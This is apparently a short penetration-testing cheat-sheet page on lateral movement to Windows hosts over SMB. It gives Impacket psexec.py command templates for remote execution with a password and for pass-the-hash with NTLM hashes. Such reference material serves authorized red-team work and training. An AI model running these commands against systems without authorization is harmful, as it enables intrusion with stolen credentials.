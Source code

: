 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - psexec
  - network-protocols
  - smb
  - windows
---
```

# Unix Shell

## 01 - Impacket

```
$ psexec.py [<domain>/]<username>:<password>@<IP> [-codecs <codec>]
```

Pass the Hash

```
$ psexec.py <username>@<IP> -hashes <ntlm_hash> [-codecs <codec>]

$ psexec.py [<domain>/]<username>@<IP> -hashes 0000000000000000000000000000000:<nt_hash>

$ psexec.py [<domain>/]<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<nt_hash>

$ psexec.py [<domain>/]<username>@<IP> -hashes :<nt_hash>
```

---
## References

### evilcomrade

- [evilcomrade: Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)